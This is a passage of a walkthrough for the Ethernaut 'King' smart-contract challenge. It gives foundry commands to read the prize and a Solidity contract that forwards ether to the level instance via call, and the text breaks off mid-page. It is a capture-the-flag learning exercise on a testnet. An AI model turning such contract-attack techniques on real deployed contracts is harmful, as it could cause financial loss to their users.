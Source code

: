 1. If we look at the `receive()` function there is a condition that the amount of ether sent should be superior or equal to the `prize`. So let's grab the `prize` value.

- I used foundry to call the `prize()` function of the contract. Here is the command:
- replace `0xaaaaaaaaaaaa` with the contract instance address of yours, and also environment variables.

```bash
cast call 0xaaaaaaaaaaaa "prize()" --private-key $PRIVATE_KEY_TESTNET --rpc-url $alchemy_RPC_sepolia
```

2. Decode the result of the previous command:

```bash
cast --to-base 0x00000000000000000000000000000000000000000000000000038d7ea4c68000 dec
```

3. Decoded result is : `1000000000000000` wei so 0,001 ether.

- Next after sending the amount of ether, `payable(king).transfer(msg.value);` should be triggered.
- But this is this line is the actual problem. It will revert dut to the gas cap of 2300. So we need to use the `call` function to send the ether.

4. Let's write a contract using the `call` function to send eth, to the contract instance address initiated on Ethernaut.

- Copy the below into Remix.
- Deploy it.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

contract NewKing {

        function Attack(address _to) public payable {
        // Check if the function call includes Ether
        require(msg.value >  0, "No Ether provided for transfer");

        // Transfer the Ether from the sender to the specified address
        // _to.transfer(msg.value); -> can't use it because capped in gas, same for send
        (bool sent, ) = _to.call{value: msg.value}("");
        require(sent, "Failed to send value!");
        }
}
```

5. `Attack` takes as input the contract instance address made on Ethernaut. `Value` also needs to be filled with the amount of ether to send: `1000000000000000`.

<br/>
<p align="center">